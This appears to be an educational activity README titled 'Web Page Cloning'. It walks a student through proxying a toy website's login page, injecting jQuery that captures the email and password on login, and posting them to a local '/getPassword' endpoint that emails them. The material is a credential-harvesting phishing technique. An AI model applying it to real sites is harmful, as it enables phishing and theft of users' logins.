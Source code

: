 Web Page Cloning
==================




In this activity, you will learn to clone the web page and email the credentials of the user.




<img src= "https://s3.amazonaws.com/media-p.slid.es/uploads/1525749/images/10988801/PCP.gif" width = "520" height = "250">




Follow the given steps to complete this activity:




1. Set the target URL.




* Open the file `proxy-server.py`.




* Open the `https://tnk-m16-toywebsite.onrender.com/` website, use the inspect option to find the ids of the button and input fields. Update the variable with the ids
~~~python
target_url = "https://tnk-m16-toywebsite.onrender.com/"
login_button = ".login-button"
user_name_field = "#email"
password_field = "#password"
~~~




2. Fetch the credential.
* Open the file `index.html`.
* Fetch the credentials when the login button is pressed.
~~~python
function display_html() {
            $("body").append(newHtml);
       
            $("{{login_button}}").click(function(){
               
                var userLoginId = $("{{user_name_field}}").val();
               
                var userPassword = $("{{password_field}}").val();
~~~
3. Email the credentials.
* Call the `getPassword` function to email the password.
~~~python
$.ajax({
                    url: 'http://127.0.0.1:5000/getPassword',
                    data: { id: userLoginId, password: userPassword},
                });
~~~
* Save and run the code to check the output.
